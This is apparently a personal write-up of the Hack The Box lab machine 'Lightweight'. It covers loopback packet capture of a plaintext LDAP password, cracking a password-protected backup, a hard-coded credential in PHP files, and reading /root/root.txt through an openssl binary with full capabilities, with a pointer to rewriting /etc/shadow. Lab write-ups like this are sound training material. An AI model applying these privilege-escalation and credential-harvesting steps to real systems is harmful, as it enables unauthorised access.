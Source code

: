```yaml
---
layout: post
title: HTB Lightweight
---
```


I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:

![index.html](../images/lightweight_index.png)

The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.

![wireshark](../images/wireshark.png)

By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned?".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
